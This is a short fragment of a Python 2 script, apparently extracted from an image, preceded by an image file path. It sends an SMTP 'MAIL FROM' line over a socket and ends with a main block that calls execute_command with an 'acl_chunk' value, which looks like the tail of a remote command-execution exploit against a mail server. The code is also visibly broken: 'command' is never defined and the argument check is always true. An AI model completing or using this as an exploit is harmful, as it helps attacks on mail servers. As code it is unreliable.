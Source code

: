 ```
        s.sendline("MAIL FROM: &lt;test@163.com&gt;")
        s.close()
        return 1
    except Exception, e:
        print('Error:%s'%e)
        s.close()
        return 0
if __name__ == "__main__":
   if len(sys.argv) &gt; 0:
      ip = '127.0.0.1'
      acl_chunk = 0x0
      execute_command(acl_chunk, command)
```
